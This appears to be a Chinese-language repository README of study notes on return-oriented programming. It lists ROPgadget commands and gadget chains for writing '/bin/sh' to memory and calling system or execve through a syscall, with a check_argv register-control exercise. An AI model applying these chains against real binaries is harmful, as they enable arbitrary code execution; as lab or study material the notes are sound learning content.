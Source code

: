 ## 任意写
向任意内存地址rw写入内容"/bin/sh"，然后调用sys。

需要寻找往内存中写入数据的gadget（mov）
```
ROPgadget --binary vmd.bin --only "mov|ret"
ROPgadget --binary vmd.bin --only "mov|pop|ret"
ROPgadget --binary vmd.bin | grep -v "jmp" | grep "mov qword"

----------------------
mov, stos, movs, movzx
```

然后查找控制寄存器的值的gadget(pop rdi)

然后寻找可写入地址(.data 和.bss)，和写入 p64(0x68732f6e69622f) （"/bin/sh"）
```
readelf -S dhcpd.bin
---------------------------
pop rsi, ret
pop rdi, ret
mov qword ptr [rsi], rdi
pop rdi, ret
sys_addr
```

调用sys（设置参数rdi）
```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rdi"
```

## evecve调用
调用execve(”/bin/sh”, 0, 0)。需要设置
`rdi`:"/bin/sh"地址
`rsi`:0
`rdx`:0
`rax`:0x3b
寻找syscall指令地址

```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rsi"
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rdx"
ROPgadget --binary dhcpd.bin --only "mov|pop|ret" | grep "eax"
ROPgadget --binary dhcpd.bin | grep "syscall"

-------------------
基于1写入/bin/sh，（binsh_addr, 0, 0）
pop rdi, ret
pop rsi, ret
pop rdx, ret
pop eax, ret  | mov eax, 0x3b
syscall_addr
```


## 可控参数检查
rdi, rsi, rdx, rcx, r8, r9 或ecx
```
ROPgadget --binary dhcpd.bin --only "pop|ret" | grep "rcx"
ROPgadget --binary dhcpd.bin --only "mov|pop|ret" | grep "rcx"
ROPgadget --binary dhcpd.bin | grep -v "jmp" | grep "ret" | grep "r8"
ROPgadget --binary dhcpd.bin | grep -v "jmp" | grep "ret" | grep "xchg" | grep "r8"

-------------------
pop, mov，xchg, xor

pop rdi, ret
pop rsi, ret
pop rdx, ret
pop rcx, ret
pop r8, ret
pop r9, ret

mov rdi, ret
mov rsi, ret
mov rdx, ret
mov rcx, ret
mov r8, ret
mov r9, ret

check_argv_addr
```

设置可控参数，然后调用check_argv(返回到那个地址)

| register | value    |
| -------- | -------- |
| rdi      | 0x100001 |
| rsi      | 0x100002 |
| rdx      | 0x100003 |
| rcx      | 0x100004 |
| r8       | 0x100005 |
| r9       | 0x100006         |


## 目录
- binary
- debug.sh
- run.sh
- gadget
- rop.py
- rop1.py
- rop2.py
- rop3.py
- inp
